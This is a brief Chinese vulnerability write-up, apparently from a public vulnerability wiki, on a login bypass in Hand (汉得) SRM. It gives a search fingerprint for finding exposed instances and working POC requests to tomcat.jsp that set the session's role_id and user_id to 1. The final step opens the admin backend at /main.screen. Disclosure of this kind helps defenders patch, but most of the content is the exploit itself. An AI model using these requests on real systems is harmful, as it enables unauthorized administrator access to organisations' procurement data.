

汉得SRM tomcat.jsp 登陆绕过漏洞¶
漏洞描述¶
汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限
漏洞影响¶
汉得SRM
网络测绘¶
web.body="汉得SRM"
漏洞复现¶
登陆页面
验证POC (Tomcat session操控)
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1

访问跳转后台
/main.screen